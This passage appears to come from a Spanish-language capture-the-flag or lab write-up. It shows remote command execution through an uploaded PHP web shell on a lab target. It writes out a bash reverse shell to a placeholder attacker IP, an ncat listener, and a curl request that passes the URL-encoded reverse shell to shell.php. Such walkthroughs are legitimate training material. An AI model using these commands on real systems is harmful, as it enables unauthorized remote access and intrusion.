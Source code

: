 ![20240103102732.png](20240103102732.png)

Hacemos una petición con curl y observamos que podemos ejecutar comandos.

![20240103102923.png](20240103102923.png)

Para hacer urlencode de nuestra rever shell podemos usar el siguiente sitio web [https://www.urlencoder.org/](https://www.urlencoder.org/)

```php
bash -c 'exec bash -i &>/dev/tcp/[IP-ATTACKER]/443 <&1'
```

Enviamos la petición con nuestra revershell en urlencode.

- Primero pondremos a la escucha con `ncat`
```php
❯ ncat -nvlp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

- Segundo, enviamos nuestra petición 

```php
❯ curl http://10.10.194.73/YouGotTh3P@th/img/shell.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F[IP-ATTACKER]%2F443%20%3C%261%27
```
